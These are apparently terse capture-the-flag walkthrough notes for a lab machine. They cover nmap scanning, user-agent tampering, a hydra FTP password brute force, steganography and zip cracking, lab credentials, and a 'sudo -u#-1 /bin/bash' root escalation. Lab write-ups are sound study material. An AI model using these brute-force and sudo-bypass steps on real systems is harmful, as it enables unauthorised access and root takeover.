 - 10.10.108.139

- `nmap -sS -sV -A <IP>`
	- 21: ftp
		- open
		- vsftpd 3.0.3
	- 22: ssh
		- OpenSSH 7.6
	- 80: http
		- Apache 2.4.29

- website
	- nothing on Burp
	- gobuster
		- noting
	- HINT:
		- intercept request - change user-agent
		- => **username: chris**

- ftp
	- not anon
	- try to breach chris's password w/ hydra
		- => **chris:crystal**
	- got 3 files:
		- txt with instructions, jpeg, png (stego)
	- `foremost -x <steg_file>`
		- -> zip password: **alien**
	- crack zip w/ john
		- => **QXJlYTUx**
		- use for second steg file
		- got second creds
			- **james:hackerrules!**

- ssh
	- james's creds
		- -> user flag
	- privilege escalation
		- `sudo l` -> (ALL, !root) /bin/bash
		- `sudo -u#-1 /bin/bash`  (1 not l)